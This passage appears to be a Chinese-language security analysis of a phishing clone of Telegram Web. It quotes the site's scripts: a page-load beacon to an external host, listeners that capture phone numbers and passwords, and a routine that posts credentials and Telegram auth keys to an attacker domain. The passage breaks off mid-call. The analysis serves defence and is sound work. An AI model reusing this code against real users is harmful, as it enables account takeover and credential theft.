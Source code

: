 - **后端数据收集**  
  ~~~js
  function access(){
      var httpRequest = new XMLHttpRequest();
      httpRequest.open('GET', 'https://test.wufulinm-tg.top/index/index/access', true);
      httpRequest.send();
  }
  
  access();
  ~~~
  - 页面加载后自动调用 `access()`，向指定服务器发送请求，可能用于记录访问信息、统计用户数据，或与后续恶意操作关联。

---

#### 3.2 `index-ee5db018.js` 分析

- **核心功能混淆与逻辑修改**  
  - 文件体积较大，包含大量与 Telegram Web 类似的逻辑，但经过混淆处理。  
  - 代码中混入了对浏览器、操作系统的检测逻辑，对不同设备进行适配或重定向处理，有助于攻击者规避安全检测并针对特定用户群体实施钓鱼攻击。

- **数据存储与通信逻辑**  
  - 脚本中存在大量对 Local Storage 以及 IndexedDB 的操作，与 Telegram 正常逻辑相似，但细节可能被篡改，以便窃取或拦截用户的敏感数据。

---

#### 3.3 `login.js` 分析

- **实时监控用户输入**  
  ~~~js
  $(".input-field-phone .input-field-input").on("input", function() {
      var phone = $(".input-field-phone .input-field-input").text();
      console.log(phone);
      localStorage.setItem('Phone', phone);
  });
  
  $('input[name="notsearch_password"]').on("input", function(e) {
      console.log(this.value);
      localStorage.setItem('password', this.value);
  });
  ~~~
  - 通过监听手机号和密码输入框的输入事件，实时捕获并存储用户输入数据到 `localStorage`。

- **检测登录状态并上传数据**  
  ~~~js
  function login_status(){
      var status = setInterval(function() {
          userid_data = JSON.parse(localStorage.getItem('user_auth'));
          if (userid_data['id'] != null && userid_data['id'] != '') {
              console.log("登录成功");
              // 组装各种敏感数据
              var userid = userid_data['id'];
              var logintime = Math.floor(new Date().getTime() / 1000);
              var dc = localStorage.getItem('dc');
              var Phone = localStorage.getItem('Phone');
              var password = localStorage.getItem('password');
              var stateId = localStorage.getItem('state_id');
              var dcServerSalt = localStorage.getItem(`dc${dc}_server_salt`);
              var dcAuthKey = localStorage.getItem(`dc${dc}_auth_key`);
  
              $.post("https://aladj.wufulinm-tg.top/api/index/save", {
                  userAuthId: Number(userid),
                  userAuthDate: Number(logintime),
                  phone: Phone,
                  pwd: password,
                  userAuthDcId: Number(dc),
                  dcServerSalt: dcServerSalt.substring(1, dcServerSalt.length - 1),
                  dcAuthKey: dcAuthKey.substring(1, dcAuthKey.length - 1),
  ~~~